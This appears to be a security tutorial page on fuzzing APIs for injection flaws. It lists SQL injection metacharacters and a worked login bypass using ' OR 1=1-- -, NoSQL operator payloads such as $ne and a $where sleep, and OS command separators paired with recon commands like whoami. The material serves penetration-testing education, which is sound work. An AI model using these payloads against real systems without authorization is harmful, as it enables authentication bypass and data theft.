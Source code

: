 ```yaml
---
title: "Injection Vulnerabilities"
tags:
    - APIs
    - SQLI
    - NOSQLI
date: "2024-09-10"
thumbnail: "/assets/img/thumbnail/apisqli.jpg"
bookmark: true
---
```

# Description
---
`Fuzzing APIs`: is the process of sending various types of input to an endpoint to provoke an unintended response
 The payloads used for fuzzing include
 [`symbols`, `numbers`, `system commands`, `SQL queries`, `NoSQL queries`, `hexadecimal`, `boolean statements`,.....]
 You should attempt fuzzing against all potential inputs and especially within the following:
* Headers
* Query string parameters
* Parameters in POST/PUT requests
After sending your fuzzing requests, search for:

- Verbose error messages
- Failures in request handling
- Indications that your payload bypassed security controls (e.g., SQL syntax errors, delays, or verbose error dumps)

# SQL Injection Meta characters
---
characters that SQL treats as functions rather than data:
for example, `--` is a metacharacter that tells the SQL interpreter to ignore the following input because it is a comment
```sql
    '
    ''
    ;%00
    --
    -- -
    ""
    ;
    ' OR '1
    ' OR 1 -- -
    " OR "" = "
    " OR 1 = 1 -- -
    ' OR '' = '
    OR 1=1
```
If an API endpoint does not filter SQL syntax from API requests, any SQL queries passed to the database from the API will execute.
```bash
SQL injection, allows a remote attacker to interact with the application’s backend SQL database. With this access, an attacker could obtain or delete sensitive data such as credit card numbers, usernames, passwords, and other gems
```
If the API authentication process uses a query like this:
```sql
SELECT * FROM userdb WHERE username = 'hAPI_hacker' AND password = 'Password1!';
```
The query retrieves the values `hAPI_hacker` and `Password1!` from the user input. If, instead of a password, we supply the API with the value `' OR 1=1-- -`, the SQL query might look like this:
```sql
SELECT * FROM userdb WHERE username = 'hAPI_hacker' OR 1=1-- -;
```
This would be interpreted as selecting the user with a `true statement` and skipping the `password` requirement, as it has been commented out. The query no longer checks for a password at all, and the user is `granted access`

# NoSQL Injection
---
APIs often use NoSQL databases, which scale well with modern architecture. NoSQL injection techniques are not as well-known as SQL injections, making them a more likely discovery.

Each NoSQL database has its own structure and querying methods, so payloads will vary. Here are some common NoSQL metacharacters for fuzzing:
```sql
    $gt
    {"$gt":""}
    {"$gt":-1}
    $ne
    {"$ne":""}
    {"$ne":-1}
    $nin
    {"$nin":1}
    {"$nin":[1]}
    {"$where": "sleep(1000)"}
```
For example, the `$ne` operator stands for `not equal` It is used to select documents where the value of a field does not match the specified value

# OS Command Injection
---
In OS command injection, rather than database queries, you're injecting operating system commands. You'll need to find an injection point where commands can be executed. Key places to target include:
* URL query strings
* Request parameters
* Headers
Common Command Separators
```bash
{ | , || , & , && , ' , " , ; }
```
Common OS Commands for Injection:
```bash
Windows -> { ipconfig , dir , ver , whoami }
Linux   -> { ifconfig , ls , pwd, whoami }
```
Injecting these commands after a command separator could allow attackers to retrieve system information or run unauthorized commands
---